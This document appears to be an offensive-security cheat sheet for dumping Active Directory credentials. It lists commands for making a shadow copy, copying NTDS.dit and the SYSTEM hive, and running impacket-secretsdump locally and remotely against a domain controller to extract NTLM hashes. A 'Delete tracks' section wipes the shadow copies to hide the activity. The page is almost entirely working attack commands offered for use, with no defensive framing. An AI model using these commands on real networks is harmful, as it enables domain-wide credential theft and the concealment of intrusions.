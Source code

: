 # Dump AD
## Manual
#### List shadow volume
```bat
vssadmin list shadows
```

#### Create shadow volume
```bat
vssadmin create shadow /for=C:
```

#### Copy shadow volume
```bat
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM c:\
```

#### Delete tracks
```bat
vssadmin delete shadows /all
vssadmin Resize ShadowStorage /For=C: /On=C: /MaxSize=300MB
```

## Impacket
### impacket local
After get the ntds.dit, sam and system:
```bash
impacket-secretsdump -ntds /root/Documents/ad/ntds.dit  -system /root/Documents/ad/system LOCAL -outputfile /root/Documents/ad/hashes_active
```

### impacket remote
```bash
impacket-secretsdump -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```


#### Extract files using mount
```bash
mount.cifs -v //PATH/ntds /mnt -o user=username
```
